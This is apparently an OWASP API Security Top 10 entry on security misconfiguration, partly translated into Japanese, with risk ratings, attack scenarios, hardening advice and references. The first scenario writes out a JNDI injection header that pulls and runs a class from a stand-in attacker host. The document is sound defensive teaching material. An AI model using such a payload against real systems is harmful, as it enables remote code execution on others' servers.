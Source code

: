 API7:2023 セキュリティの設定ミス (Security Misconfiguration)
============================================================

| 脅威エージェント/攻撃手法 | セキュリティ上の弱点 | 影響 |
| - | - | - |
| API 依存 : 悪用難易度 **3** | 普及度 **3** : 検出難易度 **3** | 技術的影響 **2** : ビジネス依存 |
| Attackers will often attempt to find unpatched flaws, common endpoints, or unprotected files and directories to gain unauthorized access or knowledge of the system. | Security misconfiguration can happen at any level of the API stack, from the network level to the application level. Automated tools are available to detect and exploit misconfigurations such as unnecessary services or legacy options. | Security misconfigurations can not only expose sensitive user data, but also system details that can lead to full server compromise. |

## その API は脆弱か？

The API might be vulnerable if:

* Appropriate security hardening is missing across any part of the API stack,  or if there are improperly configured permissions on cloud services

* The latest security patches are missing, or the systems are out of date
* Unnecessary features are enabled (e.g. HTTP verbs, logging features)
* There are discrepancies in the way incoming requests are processed by servers  in the HTTP server chain

* Transport Layer Security (TLS) is missing
* Security or cache control directives are not sent to clients
* A Cross-Origin Resource Sharing (CORS) policy is missing or improperly set
* Error messages include stack traces, or expose other sensitive information

## 攻撃シナリオの例

### シナリオ #1

An API back-end server maintains an access log written by a popular third-party open-source logging utility with support for placeholder expansion and JNDI (Java Naming and Directory Interface) lookups, both enabled by default. 
For each request, a new entry is written to the log file with the following pattern: `<method> <api_version>/<path> - <status_code>`.




A bad actor issues the following API request, which gets written to the access log file:


```
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

Due to the insecure default configuration of the logging utility and a permissive network outbound policy, in order to write the corresponding entry to the access log, while expanding the value in the `X-Api-Version` request header, the logging utility will pull and execute the `Malicious.class` object from the attacker's remote controlled server.





### シナリオ #2

A social network website offers a "Direct Message" feature that allows users to keep private conversations. 
To retrieve new messages for a specific conversation, the website issues the following API request (user interaction is not required):



```
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

Because the API response does not include the Cache-Control HTTP response header, private conversations end-up cached by the web browser, allowing malicious actors to retrieve them from the browser cache files in the filesystem.




## 防止方法

The API life cycle should include

* A repeatable hardening process leading to fast and easy deployment of a  properly locked down environment

* A task to review and update configurations across the entire API stack. The  review should include: orchestration files, API components, and cloud  services (e.g. S3 bucket permissions)


* An automated process to continuously assess the effectiveness of the  configuration and settings in all environments


Furthermore:

* Ensure that all API communications from the client to the API server and any  downstream/upstream components happen over an encrypted communication channel  (TLS), regardless of whether it is an internal or public-facing API.


* Be specific about which HTTP verbs each API can be accessed by: all other  HTTP verbs should be disabled (e.g. HEAD).

* Implement a proper Cross-Origin Resource Sharing (CORS) policy on APIs  expected to be accessed from browser-based clients (e.g. web app front-ends).

* Ensure all servers in the HTTP server chain (e.g. load balancers, reverse  and forward proxies, and back-end servers) process incoming requests in a  uniform manner to avoid desync issues.


* Where applicable, define and enforce all API response payload schemas,  including error responses, to prevent exception traces and other valuable  information from being sent back to attackers.



## 参考資料

### OWASP

* [OWASP Secure Headers Project][1]
* [Configuration and Deployment Management Testing - Web Security Testing Guide][2]

* [Testing for Error Handling - Web Security Testing Guide][3]
* [Testing for Cross Site Request Forgery - Web Security Testing Guide][4]

### その他

* [CWE-2: Environmental Security Flaws][5]
* [CWE-16: Configuration][6]
* [CWE-209: Generation of Error Message Containing Sensitive Information][7]
* [CWE-319: Cleartext Transmission of Sensitive Information][8]
* [CWE-388: Error Handling][9]
* [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response Smuggling')][10]

* [CWE-942: Permissive Cross-domain Policy with Untrusted Domains][11]
* [Guide to General Server Security][12], NIST
* [Let's Encrypt: a free, automated, and open Certificate Authority][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/
